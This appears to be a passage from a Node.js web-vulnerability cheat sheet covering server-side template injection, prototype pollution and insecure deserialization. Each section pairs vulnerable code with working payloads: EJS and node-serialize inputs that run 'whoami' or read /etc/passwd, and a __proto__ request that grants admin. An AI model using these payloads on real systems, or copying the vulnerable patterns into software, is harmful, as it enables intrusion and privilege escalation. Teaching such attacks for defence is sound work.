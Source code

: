 ```javascript
}
```

### 3. Server-Side Template Injection (SSTI)
```javascript
// Unsafe template rendering
app.post('/template', (req, res) => {
    const template = req.body.template;
    res.render('dynamic', { content: template });
});

// EJS payload
<%= process.mainModule.require('child_process').execSync('whoami') %>

// Attack
POST /template
template=<%= process.mainModule.require('child_process').execSync('cat /etc/passwd') %>
```

### 4. Prototype Pollution
```javascript
// Vulnerable merge function
function merge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object') {
            target[key] = merge(target[key] || {}, source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// Attack
POST /api/settings
{
    "__proto__": {
        "isAdmin": true,
        "role": "admin"
    }
}
```

### 5. Insecure Deserialization
```javascript
// Vulnerable code using node-serialize
app.post('/import', (req, res) => {
    const data = serialize.unserialize(req.body.data);
    res.json(data);
});

// Attack payload
{"data":"_$$ND_FUNC$$_function(){require('child_process').exec('cat /etc/passwd',function(e,s){console.log(s)})}()"}
```
